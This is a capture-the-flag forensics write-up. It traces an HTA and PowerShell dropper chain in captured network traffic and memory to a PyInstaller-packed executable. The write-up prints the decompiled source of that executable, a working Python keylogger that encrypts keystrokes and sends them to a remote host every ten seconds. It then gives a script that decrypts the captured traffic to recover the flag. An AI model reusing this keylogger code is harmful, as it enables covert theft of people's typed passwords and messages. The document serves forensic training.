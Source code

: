 # Time is of the essence (Forensics)

## Flag

``
HTB{t3ll_me_@ll_Your_S3cr3ts}
``

## Solution

The challenge contains two files; a network traffic packet capture file (tioe.pcap) and a memory file (tioe.raw) which from the challenge description, we are provided with the image profile of the operating system, saving from us a lot of time.

Starting the investigation from tioe.pcap file contains some interesting clues; which are some GET requests that we are focus on them and at the last packets transmission, we observe a time particularity. Let's dive on.

These are the interesting GET requests.

![4](https://user-images.githubusercontent.com/73289579/110716904-be604580-8210-11eb-9605-fb11b63198a8.png)
![13](https://user-images.githubusercontent.com/73289579/110716989-ebacf380-8210-11eb-8e36-513376560a05.png)
![17](https://user-images.githubusercontent.com/73289579/110717018-fa93a600-8210-11eb-9b70-55156f25477d.png)

Exporting the following objects from the network traffic and starting a further analysis.

![file_open](https://user-images.githubusercontent.com/73289579/110717111-1dbe5580-8211-11eb-968c-2b0ed93f7e50.png)
![export_open](https://user-images.githubusercontent.com/73289579/110717151-2f076200-8211-11eb-9ad7-0c983b94e8b7.png)

The "job_aplication.hta" file contains a powershell command which executes a base64 string. Decoding the base64 string, we get an information that we are requesting another file, named "dow.ps1".

![jobapplicationhta](https://user-images.githubusercontent.com/73289579/110717253-5e1dd380-8211-11eb-807f-1fb336f0ecfb.png)
![base64decodedstring](https://user-images.githubusercontent.com/73289579/110717293-72fa6700-8211-11eb-85f9-383a40666bfc.png)

The "dow.ps1" file, request an executable file, named "cbtws.exe".

![cbtwsexe](https://user-images.githubusercontent.com/73289579/110717342-8a395480-8211-11eb-8417-87c100594455.png)

The "cbtws.exe" file is a PE32+ Executable.

![file](https://user-images.githubusercontent.com/73289579/110717561-fa47da80-8211-11eb-9a8f-c89250e5bfe8.png)

Executing the command strings on this file, we can see a lot of python modules. So we start searching how to extract those python files. After a lot of search, we found a github repo (https://github.com/extremecoders-re/pyinstxtractor) which helped us to extract the contents.

![pyinstxtractor](https://user-images.githubusercontent.com/73289579/110717620-151a4f00-8212-11eb-9e93-23f94e8b32b2.png)

When we extract the previous files, a specific message showed us that the "pyiboot01_bootstrap.pyc" and "keylog.pyc" are some possibles entries points. After a research we found that the "pyiboot01_bootstrap.pyc" file wasn't what we need. So, we are focus on the other file.

To convert this file, from .pyc to .py we use the folowing python library.
https://github.com/andrew-tavera/unpyc37

Then we get this code.

```
from pynput.keyboard import Listener
from datetime import datetime
from Crypto.Cipher import AES
import threading
import socket
import random
text = ''

def gen_key() -> str:
    key = ''
    sed = int(datetime.now().strftime('%H%M%S'))
    random.seed(sed)
    for i in range(16):
        char = random.randint(32, 127)
        key += chr(char)
    return key

def aes_enc(text:bytes) -> bytes:
    key = 'oW7P0lH8aroxDKqn'
    iv = gen_key()
    cipher = AES.new(key.encode('utf-8'), AES.MODE_CFB, iv.encode('utf-8'))
    return cipher.encrypt(text)

def send(text:str) -> None:
    HOST = '192.168.1.9'
    PORT = 4443
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((HOST, PORT))
        s.sendall(aes_enc(text.encode('utf-8')))

def report() -> None:
    global text
    if text != '':
        send(text)
    text = ''
    timer = threading.Timer(10, report)
    timer.start()

def keystrokes(key:str) -> None:
    global text
    key = str(key).replace("'", '')
    text += key + ' '

def main() -> None:
    with Listener(on_press=keystrokes) as log:
        report()
        log.join()

if __name__ == '__main__':
    main()
```


After reading the code, we understand that continuously reads the keystrokes and every 10 seconds it sends them encrypted by AES CFB mod of operation. We have the key and the only think that is changing is the initialize vector which is created by random.randint(), its seed created by a specific time.

We find the time from the .raw file. Specifically, we use volatility and search for processes focus on the "cbtws.exe" file and we find the time which executed.

***vol.py -f /tioe.raw --profile=Win10x64_17134 pstree***

![volatility_exe_time](https://user-images.githubusercontent.com/73289579/110718257-48a9a900-8213-11eb-9ec8-763b4a310c69.png)

At the beginning of this writeup, we mentioned some interestings clues about the "tioe.pcap" file. First, was the GET requests and secondly was the time particularity on the last packets. We observe that those packets are sent every 10 seconds.


![packetsevr10s](https://user-images.githubusercontent.com/73289579/110718377-87d7fa00-8213-11eb-90ff-2231c2a01352.png)

So, we need to extract those packets. Right Click (on the packet we want) > Follow > TCP Stream and on the opened window, we select a raw preview of the data.


![firststream](https://user-images.githubusercontent.com/73289579/110718423-9faf7e00-8213-11eb-9d68-5a4791bd4764.png)

We collect all of this data until the last stream (the last one is the 18th).


![finalstream](https://user-images.githubusercontent.com/73289579/110718459-b3f37b00-8213-11eb-9eb4-04ec598b66e6.png)

Now, we have to create a script for decrypting those data.

```

from Crypto.Cipher import AES
from datetime import *
import random


c1 = "cbb63ce8f39237af0a6e91dd305a6ae92e796394a82803eac03a3b309a3f72be0a2560d35fa10a8d5d2c9ce739f16c081922fcf78d892c03fd2a6e8e2f22e05ad0317a903263675ca1f3f4a55505bd9bb4fd0fc0dbb709863f93ef4b32c0b64d3fe74e3c946a965914b7493c7dab1d8d6cc8e9affaceed3325ee22d6aa48fd4a383564019da8e36848e1f8f9f6b262439fa84d35be7b39d2d1e7f3ed33e5"
c2 = "dfa3002df354f2f39e4bbd443896287985deda9e130a20380abb4dda65783e2808abc0f7b0f4379eb0d39e1b5e6e2de1624fe5b5434ff149a22424e04ae6a0a618ad0845c80a107548c959c94e6093a301c8ff380407782b966e318108bddc3b5c757cbebee8a63b8c9d34b7a444e97e3c245f799f9ef2106fefbca97df17495a856e1789ba1ffe01073d4a97b45ba81e0e1"
c3 = "f8a186d5d44f89ab7e756c02a43121a9cded62fd482b3ff305ed01526e2116461e81fcb0608278d55dc7387d1ff4ded2c15a6ce760cc9f6a"
c4 = "89f0bc72deff7d0e17906263906be079c0c1c192586c6d03e886b7ab8389ff663972264514f8deff9e42df2f5ba6ffe55e3e1f0696eacf518a1c09c5e57d2d91641cd9ebdee20286e7ee5690651a07da17bf88c111460c7dd8ff381f89a7e1fbf31c6ab8c765a80e6fe4c306fbe3cc70a1ad2586d8052c033832339eb63d8b5ab52ac21d11616bb72a6294a32997937ba78cd19298f9e44e4a5bbca7b9e35c3ecdd8f2f9380f5fc1541103ee98aacd4bfca591df2b093e7f588e"
c5 = "0458a3ef7650173672990be261e3b87fc3a34f5bba43ba2c0871e1e74b917233cddb14c93f193b25be9a366af736821495b9caa20ade6726ecc2b326b9834424a2d38d3e984a5387a09bcca0d137b7b09f4bdc0ab97bb32d0fcd5a6d0b7a3b361888843ea972fb627c894da3bdb3ef0a5499e5001f53a9de7f33075ac45183edce8fa1d0a6d127d9172dd4077fc4a97796dc1bad9aaf7459a3fc4bf7e0d6bcbfad5bcdf16afbb95e3b907cb024a3fc3f9760e0d00a2e7684368a6fd7b124482badcba6acef39795e4bbd12879e2033e7deab4f4e1a3f2295880f88a8940858acebcfd0c89a7111ecf9f6f6107d8a"
c6 = "da004563ef765d50a03e74b917215e4c2c6f8541c8f5e7f6ce5cfba8bc9187c12d82e4b5ca4733e7682c5d292330939a36b80c282aa8bf4a0785610160ce8c74cfcbc342450f69e29c34f4656f7a735cfcd9e5c4"
c7 = "418bee98a4eb864808207b2f6f0fd214f21b1c2c3b8c3b557283956f121e3a86f476d0aaffdb4248ff126baa69a10b17b2c584f1b4a9f679a9ca16f7a2d1"
c8 = "ec24a9573a0802aa59088023265e680e"
c9 = "41ba0541bb62c61be797423ad7bdb296"
c10 = "5aac6ccd5d17d78c7d975fd28041b521"
c11 = "e4f5f582541de0926448f2c5babdf982"
c12 = "7913a359581a25feda2be8e2df1715bb31bc77ac63cfca7c7ad46a30b1a91aba249caaa69995462a0618f4efba876a54903f44172a2611f5a2783436207be454a03ffe1da7b15516b330f32da973be09"
c13 = "ceb23aa330800bb5be8abf080e6a86fb4c85bf1c72f5f30da837a54d429dc00c"
c14 = "0ab0d10d7d7811dfbb06ef27889b5ae8faecf9e56ebd316ffb3a7cf6780ad68643cff8f9"
c15 = "819ecc9fd6eaaa6f957e3f351acc86017d6684999ae36597f8fa"
c16 = "a527d4d23b4569afa05b7f68322084946ce9d0caa8f38f41a449da0b1ec08ed41d1cf7d1028633d66158e41717a83d737caa8d976354ca515d805fbed7285108d0ffbd1a6b30360f1805dcaac5e6ab07494f821e47871be7ef8d6604f7af6e2bd1aaf46aae979ae83ba3049854b53957cc96aca0cd478007b2967dbefc35ed989909838a4180a2c7e041"
c17 = "a870f8524cf132984bbacdbcd0a44d768e5f9a3467effbca4dcb6cab3341957d00131021203cd24a5096f0350522053bac2822146c29eba6"

cts = [c1,c2,c3,c4,c5,c6,c7,c8,c9,c10,c11,c12,c13,c14,c15,c16,c17]

def gen_key(lol):
    key = ''
    sed = lol
    random.seed(sed)
    for i in range(16):
        char = random.randint(32, 127)
        key += chr(char)
    return key


var1 = datetime.strptime('20:00:22', '%H:%M:%S')
for ct in cts:
    var2  = int(var1.strftime('%H%M%S'))
    key = 'oW7P0lH8aroxDKqn'
    iv = gen_key(var2)
    cipher = AES.new(key.encode('utf-8'), AES.MODE_CFB, iv.encode('utf-8'))
    keystrokes = cipher.decrypt(bytes.fromhex(ct))
    print(keystrokes)
    var1 = var1 + timedelta(0,10)

```

Running the scripting we obtain the following results.

![output_without_flag](https://user-images.githubusercontent.com/73289579/110718703-31b78680-8214-11eb-899d-fe54ef8e1829.png)

Manually we can obtain the flag.

![output_without_flag_AGAIN_xaxa](https://user-images.githubusercontent.com/73289579/110719140-f7021e00-8214-11eb-92eb-a8efa213bce4.png)

***HTB{t3ll_me_@ll_Your_S3cr3ts}***
